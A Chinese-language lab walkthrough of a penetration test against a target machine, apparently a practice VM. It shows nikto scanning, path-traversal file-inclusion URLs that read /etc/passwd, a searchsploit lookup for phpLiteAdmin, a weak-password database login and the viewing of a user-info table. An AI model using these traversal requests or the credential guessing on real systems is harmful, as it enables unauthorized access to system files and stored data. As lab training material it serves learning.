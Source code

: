 ```
sudo nikto -h 192.168.100.153 
```

![image-20210920213013806](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109202130968.png)



## 访问目标靶机的80端口,**寻找有价值的信息；**

>  http://192.168.100.153/view.php?page=tools.html

> 看到链接后面有？page= tools.html，猜想：是否该页面包含文件包含漏洞；

##  **尝试文件包含漏洞**

```
http://192.168.100.153/view.php?page=/etc/passwd
http://192.168.100.153/view.php?page=../etc/passwd
http://192.168.100.153/view.php?page=../../etc/passwd
```

![image-20210921111131326](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211111606.png)

## 由扫描到的网站目录进入/dbadmin/

```
http://192.168.100.153/dbadmin/test_db.php
```

![image-20210921111448815](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211114086.png)

## 查询对应版本的漏洞；

```
searchsploit phpLiteAdmin
```


![image-20210920213034018](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109202130182.png)

## 存在PHP 远程代码注入漏洞；

## 尝试使用弱口令进行登录数据库

>  admin 成功登录，

![image-20210921111744857](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211117146.png)

## 查看敏感的信息users表中info

```
http://192.168.100.153/dbadmin/test_db.php?action=row_view&table=info
```
